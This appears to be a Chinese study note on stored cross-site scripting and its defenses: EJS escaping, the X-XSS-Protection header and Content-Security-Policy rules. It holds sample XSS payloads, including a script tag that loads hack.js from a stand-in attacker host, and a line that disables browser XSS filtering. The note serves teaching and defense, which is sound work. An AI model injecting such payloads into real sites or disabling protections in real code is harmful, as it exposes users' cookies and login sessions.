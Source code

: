 - 存储型 - 存储到DB后读取时注入
```js
// 评论
<script>alert(1)</script>

// 跨站脚本注入
我来了<script src="http://localhost:4000/hack.js"></script>
```

### XSS攻击的危害 - Scripting能干啥就能干啥
- 获取页面数据
- 获取Cookies
- 劫持前端逻辑
- 发送请求
- 偷取网站的任意数据
- 偷取用户的资料
- 偷取用户的秘密和登录态
- 欺骗用户

### 防范手段
ejs转义小知识
```js
<% code %>用于执行其中javascript代码；
<%= code %>会对code进行html转义；
<%- code %>将不会进行转义
```
- HEAD
```js
ctx.set('X-XSS-Protection', 0) // 禁止XSS过滤
// http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
```
::: warning
0 禁止XSS过滤。  
1 启用XSS过滤（通常浏览器是默认的）。 如果检测到跨站脚本攻击，浏览器将清除页面（删除
不安全的部分）。  
1;mode=block 启用XSS过滤。 如果检测到攻击，浏览器将不会清除页面，而是阻止页面加载。  
1; report= (Chromium only)  
启用XSS过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用CSP report-uri 指令的功能  
发送违规报告。
:::

- CSP
::: warning
**内容安全策略** (CSP, Content Security Policy) 是一个附加的安全层，用于帮助检测和缓解某
些类型的攻击，包括跨站脚本 (XSS) 和数据注入等攻击。 这些攻击可用于实现从数据窃取到
网站破坏或作为恶意软件分发版本等用途

CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只
需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻
击。
:::

```js
// 只允许加载本站资源
Content-Security-Policy: default-src 'self'
// 只允许加载 HTTPS 协议图片
Content-Security-Policy: img-src https://*
// 不允许加载任何来源框架
Content-Security-Policy: child-src 'none'
```
